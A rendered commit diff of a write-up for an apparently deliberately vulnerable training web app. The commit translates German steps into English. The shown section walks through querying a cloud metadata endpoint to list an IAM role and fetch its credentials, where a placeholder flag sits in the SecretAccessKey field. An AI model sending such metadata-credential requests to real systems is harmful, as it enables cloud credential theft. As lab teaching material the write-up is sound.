

Before and after one commit to freeDxvid/Vulnerable-Web-App, a Markdown page: WRITEUP.md, the part around one of its changes. Drawn GitHub-style.

````diff
--- a/WRITEUP.md
+++ b/WRITEUP.md
@@ -186,23 +194,23 @@ http://metadata.internal/
 
-### Schritt 2 – Pfade navigieren
+### Step 2 – Navigate the paths
 
 ```
 http://metadata.internal/latest/meta-data/
 ```
--> Listet verfügbare Felder, darunter `iam/`.
+-> Lists available fields, including `iam/`.
 
 ```
 http://metadata.internal/latest/meta-data/iam/security-credentials/
 ```
--> Gibt den Rollennamen `datasync-role` zurück.
+-> Returns the role name `datasync-role`.
 
-### Schritt 3 – Credentials abrufen
+### Step 3 – Fetch the credentials
 
 ```
 http://metadata.internal/latest/meta-data/iam/security-credentials/datasync-role
 ```
 
--> Gibt JSON zurück:
+-> Returns JSON:
 ```json
 {
   "Code": "Success",
@@ -213,6 +221,7 @@ http://metadata.internal/latest/meta-data/iam/security-credentials/datasync-role
 }
 ```
 
-**Ergebnis:** **Flag 4** steckt im Feld `SecretAccessKey`: `FLAG_PLACEHOLDER_metadata`
+**Result:** **Flag 4** is in the `SecretAccessKey` field:
+`FLAG_PLACEHOLDER_metadata`
 
 ---
````
Also changed, not shown: other parts of WRITEUP.md (+83 -75 lines).
